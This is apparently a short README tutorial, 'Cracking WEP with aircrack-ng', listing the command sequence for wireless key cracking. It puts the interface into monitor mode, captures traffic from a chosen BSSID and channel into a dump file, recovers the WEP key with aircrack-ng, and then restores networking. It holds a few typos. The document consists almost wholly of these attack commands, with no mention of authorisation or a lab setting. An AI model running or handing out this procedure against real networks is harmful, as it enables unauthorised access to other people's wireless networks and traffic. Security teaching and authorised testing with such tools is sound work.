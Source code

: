 # Cracking WEP with aircrack-ng

`airmon-ng check kill`

`airmon-ng start wlan0`

`airodump-ng wlan0mon`

Don't forget to replace CHANNEL en BSSID withe the right channel and bssid.

`airodump-ng -c "CHANNEL" --bssid "BSSID" -w dump wlan0mon`

After enough packets are recieved we can crack the encryption key using:

`aircrack-ng -b "juist bssid" dump-01.cap`

After cracking the password we can stop the wlan0mon interface using:

`airmon-ng stop wlan0mon`

`systemctl start NetworkManager.service`

